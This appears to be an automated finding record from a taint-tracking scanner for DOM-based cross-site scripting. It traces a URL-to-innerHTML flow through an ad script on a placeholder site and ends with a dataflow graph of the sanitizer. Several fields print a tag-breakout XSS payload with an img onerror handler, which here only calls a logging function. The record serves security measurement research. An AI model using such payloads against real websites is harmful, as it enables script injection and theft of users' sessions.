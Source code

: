 // Finding: 8c8f433e-3135-4774-bde0-84cebb3f3622
// Finding.url: https://www.example80.com/ott/people/people-every-day-trisha-yearwood/video_5546ddf0-7594-562c-a11b-c89ff64e3edd.html?ff64e3edd.html%3Fblock_id%3D980754"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('025a0a14d6de4f5598009b31ad4f4d10')><!--/*
// Finding.parentloc: https://www.example80.com/ott/people/people-every-day-trisha-yearwood/video_5546ddf0-7594-562c-a11b-c89ff64e3edd.html?ff64e3edd.html%3Fblock_id%3D980754"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('025a0a14d6de4f5598009b31ad4f4d10')><!--/*
// Finding.domain: www.example80.com
// Finding.base_domain: example80.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 3
// Sanitizer.name: RubiconAdServing.RubiconAd/this.start
// Sanitizer.location: https://ads.example81.com/ad/11430.js - RubiconAdServing.RubiconAd/this.start:1:15461
// Finding.begin: 133
// Finding.end: 470
// Finding.original_uuid: 359d7c00-cad8-472c-b533-c5dc408b9e3a
// Finding.TwentyFiveMillionFlowsId: 463228722
// Finding.script: https://example82.com/script.js line 1 > eval
// Finding.line: 1
// Exploit.uuid: 025a0a14-d6de-4f55-9800-9b31ad4f4d10
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: src
// Exploit.quote_type: "
// Exploit.tag: script
// Exploit.break_out: ff64e3edd.html%3Fblock_id%3D980754"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: ff64e3edd.html%3Fblock_id%3D980754"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 129
// Exploit.replace_begin_url: 114
// Exploit.replace_end_url: 129
// Exploit.replace_begin_param: 279
// Exploit.replace_end_param: 313
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: true
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: 1880002555
// DepGraph.sanitizer_hash: 1761578589
// Part of the URL ('&rf=https%3A//www.example80.com/ott/people/people-every-day-trisha-yearwood/video_5546ddf0-7594-562c-a11b-c89ff64e3edd.html%3Fff64e3edd.html%253Fblock_id%253D980754%22%3E%3C/iframe%3E%3C/style%3E%3C/script%3E%3C/object%3E%3C/embed%3E%3C/textarea%3E%3Cimg%20src%3Dx%20onerror%3DtaintfoxLog%28%27025a0a14d6de4f5598009b31ad4f4d10%27%29%3E%3C%21--/*') found in right hand side of replace 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="escape"];
n2 [shape=box, label="Var: x"];
n3 [shape=ellipse, label="."];
n4 [shape=box, label="Lit: &rf="];
n5 [shape=ellipse, label="str_replace_once"];
n6 [shape=box, label="Lit: $referrer$"];
n7 [shape=box, label="Lit: &rf=https%3A//www.example80.com/ott/people/people-every-day-trisha-yearwood/video_5546ddf0-7594-562c-a11b-c89ff64e3edd.html%3Fff64e3edd.html%253Fblock_id%253D980754%22%3E%3C/iframe%3E%3C/style%3E%3C/script%3E%3C/object%3E%3C/embed%3E%3C/textarea%3E%3Cimg%20src%3Dx%20onerror%3DtaintfoxLog%28%27025a0a14d6de4f5598009b31ad4f4d10%27%29%3E%3C%21--/*"];
n8 [shape=box, label="Var: x"];
n9 [shape=ellipse, label="str_replace_once"];
n10 [shape=box, label="Lit: $aso$"];
n11 [shape=box, label="Lit: &p_pos=atf"];
n12 [shape=box, label="Var: x"];
n13 [shape=box, label="Var: x"];
n14 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n3 -> n4;
n3 -> n1;
n8 -> n3;
n5 -> n6;
n5 -> n7;
n5 -> n8;
n12 -> n5;
n9 -> n10;
n9 -> n11;
n9 -> n12;
n13 -> n9;
n14 -> n13;
}